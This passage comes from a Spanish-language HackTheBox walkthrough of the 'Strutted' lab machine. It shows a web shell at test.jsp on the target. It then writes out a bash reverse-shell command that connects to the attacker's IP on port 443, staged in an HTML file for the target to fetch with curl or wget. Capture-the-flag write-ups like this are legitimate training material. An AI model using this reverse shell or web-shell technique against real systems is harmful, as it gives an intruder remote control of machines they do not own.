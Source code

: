 ![caido_4](/assets/img/HackTheBox/MachineStrutted/caido_4.png)

Ahora solo nos queda buscar en la web:

```web
http://strutted.htb/test.jsp
```
![web_jsp](/assets/img/HackTheBox/MachineStrutted/web_jsp.png)
Como podemos ver tenemos una web Shell, si queremos hacer un intento de reverse Shell hacia nuestra maquina no podemos, pero si podemos usar herramientas como curl o wget

Primero en nuestra maquina atacante vamos a crear un archivo de extensión html en este caso, porque probé y funcionó de primera, va a contener código de una reverse Shell

```bash
bash -i >& /dev/tcp/10.10.14.220/443 0>&1
```
Una vez hecho esto nos levantamos un servidor local con Python
